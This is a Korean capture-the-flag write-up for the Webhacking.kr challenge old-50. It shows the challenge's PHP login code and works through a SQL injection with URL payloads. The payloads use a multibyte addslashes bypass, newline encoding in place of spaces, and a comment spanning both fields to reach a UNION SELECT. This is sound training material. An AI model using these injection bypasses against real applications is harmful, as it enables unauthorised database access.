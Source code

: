 ```yaml
---
title: ["[Webhacking.kr] old-50 (sqli - 45)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
```

이번 문제는 old-45와 유사해보인다.  

```sql
select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')
```  
마찬가지로, `id`에 인젝션을 해야된다.  

```sql
select lv from chall50 where id='0' or lv=3 #' and pw=md5('123')
```
이렇게 동작시키면 되겠다.  

`'`에 대한 `addslashes()`함수의 동작은 old-45의 방법을 사용하면 되고,  

`(`, ` ` 이 사용이 안되므로 `%0a`를 사용해서 공백 필터를 우회할 수 있다.  

```
?id=1%c7'or%0alv%0alike%0a1%23&pw=123
```
해당 쿼리는 `level : 1`을 응답하는데,  

```
?id=1%c7'or%0alv%0alike%0a3%23&pw=123
```
lv=3인 쿼리는 `Wrong` 응답이 온다.

DB에 `lv=3`인 데이터가 없다는 뜻이다.  
데이터가 없을 때는 `union`으로 값을 넣어야되는데,  
`id`에는 `union`이 필터링되어 있다.  

즉, 인젝션 포인트가 `id`가 아니라 `pw`이다.  

`md5()`함수가 동작하지 않도록 하려면, `id`에서부터 쭉 주석처리를 하면 된다.  

```sql
select lv from chall50 where id='0'/*' and pw=md5('*/union select 3#')
```

```
?id=1%c7'%2f%2a&pw=%2a%2funion%0aselect%0a3%23
```